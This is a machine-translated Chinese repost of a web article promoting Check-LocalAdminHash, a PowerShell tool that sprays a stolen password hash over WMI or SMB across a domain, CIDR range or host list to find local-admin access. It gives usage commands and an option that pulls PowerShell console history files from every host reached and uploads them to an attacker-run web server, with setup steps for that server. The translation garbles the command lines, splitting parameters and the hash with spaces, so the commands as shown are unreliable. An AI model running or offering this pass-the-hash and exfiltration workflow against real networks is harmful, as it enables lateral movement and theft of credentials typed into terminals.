


# Check-LocalAdminHash:通过 WMI 或 SMB 对多个主机进行身份验证的 PowerShell 工具

> 原文：<https://kalilinuxtutorials.com/check-localadminhash/>

**Check-LocalAdminHash** 是一个 PowerShell 工具，它尝试使用密码哈希通过 WMI 或 SMB 对多个主机进行身份验证，以确定所提供的凭据是否是本地管理员。

如果你获得一个用户的密码散列，并想知道他们在网络上的本地管理员位置，这是很有用的。它本质上是我最喜欢的两个工具和一些我自己的代码的科学怪人。

这个脚本存在的原因是，在一次评估中，我想从网络上的每个系统收集所有 PowerShell 控制台历史文件(PSReadline)。PSReadline 控制台历史实际上是 bash 历史的 PowerShell 版本。

它可以包含许多有趣的东西，人们可以在终端上输入密码。因此，这个脚本中包含了一个选项，也可以过滤所有的 PSReadline 文件。这里有一点设置。有关设置，请参见自述文件的末尾。

**例题**

***对照 WMI*** 上的所有主机检查本地管理哈希

此命令将使用域“testdomain.local”来查找所有系统，然后尝试使用用户“test domain . local \ possible minuser”和 WMI 上的密码哈希对每个系统进行身份验证。

**Check-LocalAdminHash-Domain test Domain . local-user Domain test Domain . local-Username possible minuser-password hash e 62830 daed 8d bea 4 ACD 0 b 99d 682946 bb-all systems**

***导出所有 PSReadline 控制台历史文件***

此命令将使用域“testdomain.local”来查找所有系统，然后尝试使用用户“test domain . local \ possible minuser”和 WMI 上的密码哈希对每个系统进行身份验证。然后，它会尝试在每个系统上查找每个配置文件的 PowerShell 控制台历史文件(PSReadline ),然后将它们发送到 web 服务器。请参阅自述文件底部的服务器设置。

**Check-LocalAdminHash-Domain test Domain . local-user Domain test Domain . local-Username possible minuser-password hash e 62830 daed 8d bea 4 acd0b 99d 682946 bb-all systems-ExfilPSReadline**

***使用 CIDR 测距***

此命令将使用提供的 CIDR 范围来生成目标列表，然后尝试使用本地用户“PossibleAdminUser”和 WMI 上的密码哈希来验证每个列表。

**Check-LocalAdminHash-Username possible minuser-password hash e 62830 daed 8d bea 4 acd0b 99d 682946 bb-CIDR 192 . 168 . 1 . 0/24**

***使用目标列表和 SMB 并输出到文件***

此命令将使用提供的目标列表，并尝试使用本地用户“PossibleAdminUser”和 SMB 上的密码哈希对每个主机进行身份验证。

**Check-LocalAdminHash-Username possible minuser-password hash e 62830 daed 8d be a4 ACD 0 b 99d 682946 bb-target list C:\ temp \ target list . txt-Protocol SMB | Out-File-Encoding Ascii C:\ temp \ local-admin-systems . txt**

***单目标***

此命令尝试通过 SMB 针对系统 192.168.0.16 为用户管理员执行本地身份认证。

**Check-LocalAdminHash-target system 192 . 168 . 0 . 16-用户名 Administrator-password hash e 62830 daed 8d bea 4 ACD 0 b 99d 682946 bb-协议 SMB**

**也可阅读-[AlertResponder:AWS 无服务器应用模型的自动安全警报响应框架](https://kalilinuxtutorials.com/alertresponder/)**

***检查-LocalAdminHash 选项***

*   **用户名—**用于尝试验证的用户名。
*   **Password hash—**用户的密码哈希。
*   **target system–**用于验证尝试的单个主机名或 IP。
*   **target list–**每行扫描一个主机的主机列表
*   **all systems—**启用时利用 PowerView 模块枚举所有域系统的交换机。然后，该列表用于检查本地管理员访问。
*   **域—**这是 PowerView 将用于发现系统的域。
*   **用户域–**这是用于向每个系统进行身份验证的用户域。如果使用本地凭据而不是域凭据，请不要使用此标志。
*   **协议–**这是使用 WMI 还是 SMB 检查哈希的设置。默认为“WMI”，但将其设置为“中小企业”以进行检查。
*   **CIDR—**指定 CIDR 形式的网络范围，如 192.168.0.0/24
*   **线程—**默认为 5 个线程。(我遇到过一些设置线程数超过 15 的奇怪问题，有些结果没有返回。)
*   **ExfilPSReadline–**对于认证成功的每个系统，它运行 PowerShell 命令来定位 PSReadline 控制台历史文件(PowerShell 命令历史),然后将它们发送到 web 服务器。请参阅自述文件了解服务器设置。

***PSReadline 渗出设置***

**这是您的警告**，您将设置一个面向互联网的服务器，接受文件上传。通常，这是一件非常糟糕的事情。所以在这样做的时候一定要采取预防措施。我建议**锁定防火墙规则**，这样只有上传 PSReadline 文件的 IP 才能访问网络服务器。此外，虽然我们的主题是安全，这将与 HTTPS 连接工作得很好，所以设置您的域和证书，使 PSReadline 文件通过网络加密发送。你已经被警告了…

*   在你想发送文件的地方设置一个服务器。必须可以从每个系统通过 HTTP/HTTPS 访问该服务器。
*   从这个 repo 中复制 index.php 脚本，并将其放在 web 服务器的 web 根目录(/var/www/html)下的/index.php 中。
*   制作上传目录

**mkdir/var/www/html/uploads**

*   修改此目录的权限

**chmod 0777/var/www/html/uploads**

*   确保安装了 php

**apt-get 安装 php**

*   重启 Apache

**服务 apache2 重启**

*   在 Check-LocalAdminHash.ps1 脚本中，向下滚动到“Gen-EncodedUploadScript”函数，并修改“$ UnencodedCommand”下的“$Url”变量。指向你的网络服务器 index.php 页面。我还没有想出如何将 UploadUrl 变量传递到最终被编码并在目标系统上运行的那部分代码中，所以现在还是硬编码吧。

现在，当您使用-ExfilPSReadline 标志运行 Check-LocalAdminHash 时，它应该尝试将每个 PSReadline(如果有)发送到您的 web 服务器。

**学分**

Check-LocalAdminHash 几乎是我最喜欢的两个工具 PowerView 和 Invoke-TheHash 的弗兰肯斯坦。95%的代码来自这两个工具。因此，这归功于 Kevin Robertson(@ Kevin _ Robertson)的 Invoke-TheHash，这归功于 Will Schroeder (@harmj0y)、Matt Graeber (@mattifestation)(以及任何其他在 PowerView 上工作的人)。没有这两个工具，这个脚本就不会存在。同时也要感谢史蒂夫·博罗什(@424f424f)在穿线和成为一个全面的令人敬畏的家伙方面的帮助。

[**Download**](https://github.com/dafthack/Check-LocalAdminHash)